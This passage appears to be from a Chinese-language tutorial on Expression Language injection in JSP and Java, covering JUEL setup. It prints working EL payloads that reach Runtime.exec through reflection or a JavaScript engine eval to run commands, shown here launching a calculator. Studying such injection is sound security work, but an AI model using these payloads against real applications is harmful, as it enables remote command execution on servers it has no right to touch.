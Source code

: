 先来看看EL表达式在jsp中的写法，造成了命令执行，通用POC

```
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

![image-20220510165812033](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220510165812033.png)

但是呢，这只是针对jsp的，在实际情况下我们几乎没有办法从外部控制jsp的EL表达式，大多数是java程序的也就是框架的服务端的EL表达式来造成注入漏洞的

对于java程序可以控制输入的EL表达式为

```
${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}

或者直接
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('calc',null)}
```

其实也就是我们在jsp中`setAttribute`中的第二个参数，这里就是通过反射来调用了`Runtime.getRuntime().exec`

EL+JS引擎的命令执行

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator.app')")}
```

# Java代码中的EL注入——JUEL

因为我们平常对于这种注入遇到的还是在java代码中的注入，所以还是来关注java代码方面的内容

首先要导入几个包

```
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-spi</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-api</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-impl</artifactId>
    <version>2.2.7</version>
</dependency>
```
